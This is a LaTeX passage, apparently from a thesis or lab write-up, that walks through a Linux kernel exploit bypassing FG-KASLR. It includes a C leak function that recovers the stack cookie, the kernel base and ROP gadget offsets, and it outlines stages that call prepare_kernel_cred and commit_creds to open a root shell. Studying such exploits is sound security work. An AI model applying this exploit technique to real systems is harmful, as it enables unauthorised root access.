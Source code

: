 \documentclass{masterthesis}
\begin{document}
\lstinline{__ x86_retpoline_r15}, \lstinline{swapgs_restore_regs_and_return_to_usermode}, \lstinline{ksymtab} are never randomized with respect to \lstinline{_text}, and in particular both \lstinline{commit_creds} and \lstinline{prepare_kernel_cred} keep the same offset inside \lstinline{ksymtab}.
To find the base image instead, you need to inspect the stack when reading the module, look at a large amount of data and find an address located in the \lstinline{_text} region.
Reading 320 bytes, we find at 304th byte an address that falls in the region of \lstinline{_text}. From that value, we subtract the address of \lstinline{_text} and find the base image.
From there we calculate the various offsets with the functions not affected by FG_KASLR:
\begin{lstlisting}
void leak(void){
    unsigned n = 40;
    unsigned long leak[n];
    ssize_t r = read(global_fd, leak, sizeof(leak));
    cookie = leak[16];
    image_base = leak[38] - 0xa157ULL;
    kpti_trampoline = image_base + 0x200f10UL + 22UL;
    pop_rax_ret = image_base + 0x4d11UL;
    read_mem_pop1_ret = image_base + 0x4aaeUL;
    pop_rdi_rbp_ret = image_base + 0x38a0UL;
    ksymtab_prepare_kernel_cred = image_base + 0xf8d4fcUL;
    ksymtab_commit_creds = image_base + 0xf87d90UL;
    ........
}
\end{lstlisting}
From here on we have 4 stages:
\begin{enumerate}
\item Leaking commit_creds();
\item Leaking prepare_kernel_cred();
\item Calling prepare_kernel_cred(0);
\item Calling commit_creds() and opening root shell;
\end{enumerate}
\end{document}
